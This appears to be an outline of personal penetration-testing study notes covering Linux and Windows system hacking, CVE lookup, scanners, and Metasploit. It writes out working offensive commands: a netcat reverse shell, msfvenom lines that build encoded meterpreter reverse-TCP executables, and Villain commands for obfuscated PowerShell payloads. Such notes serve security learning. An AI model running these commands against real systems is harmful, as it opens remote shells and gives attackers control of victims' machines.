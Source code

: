 - System hacking is defined as the compromise between computer systems and software to access the target computer and steal or misuse their sensitive information.
- Linux System Hacking
	- Hack Linux using the shadow file.
	- ssh key leak
	- Remote code Execution
	- privilege Escalation
	- bug on kernel
- Window system hacking
	- fundamental of window
	- DLL Hijacking
	- Powershell Scripting and usage
	- managing service, Users
	- active directory system
- Remote shell access(bind shell, reverse shell) payload
	- netcat -lvp 2222 
	- netcat 192.168.1.1 2222 -e /bin/bash
- payload (revshells.com)

- web server (whatweb http://google.com)
	- Apache server (sudo systemctl start apache2)
	- Nginx Server (sudo systemctl status nginx          sudo systemctl status nginx )
	- Python Server (python3 -m http.server 9090)
	- Microsoft IIS
	- Ruby on Rails
	- LiteSpeed
___

- CVE (Common Vulnerabilities and Exposures)
	- Common Vulnerability Scoring System (CVSS)  (0.0-10.0)
	- MITRE Corporation -----     MITRE ATT&CK Framework:
	- CVE-YEAR-ID  (CVE-2019-22321)
- ExploitDB  (offsec)     [https://exploit-db.com]     [CVE - Search CVE List (mitre.org)](https://cve.mitre.org/cve/search_cve_list.html)     SearchSploit
- Common Vulnerability Assessment Tools
	- Nessus   (https://www.tenable.com/products/nessus)
	- Acunetix
	- OpenVAS
	- Nmap with NSE
- Metasploit    (ruby)      msfconsole, msfdb, msfconsole -q  ------>search     ---->use   ----->run
	- show info,   show options
	- Msfvenom (msfvenom -l payloads)  (msfvenom -p window/meterpreter/reverse_tcp LHOST=wlan0 LPORT=2222 -f exe > top.exe)  top.elf
	- Msfconsole
	- Msfdb
- Payload  
	- window/meterpreter/reverse_tcp
	- linux/x86/meterpreter/reverse_tcp
	- OSX/x86/meterpreter/reverse_tcp
	- android/meterpreter/reverse_tcp
	- freebsd/x86/meterpreter/reverse_tcp
- Connection types
	- Reverse TCP
	- Bind TCP
	- Reverse HTTPS
	- Bind HTTPS
- payloads
	- Staged payload  (window/meterpreter/reverse_tcp)
	- Non-Staged payloads (window/meterpreter_reverse_tcp)
- msfvenom -p window/meterpreter/reverse_tcp LPORT=2222 LHOST=wlan0 -f exe -e x86/shikata_ga_nai > rtop.exe
---
- villain   (create payload powershell)
	- generate os=windows lhost=wlan0  obfuscate
	- generate os=windows lhost=wlan0  encode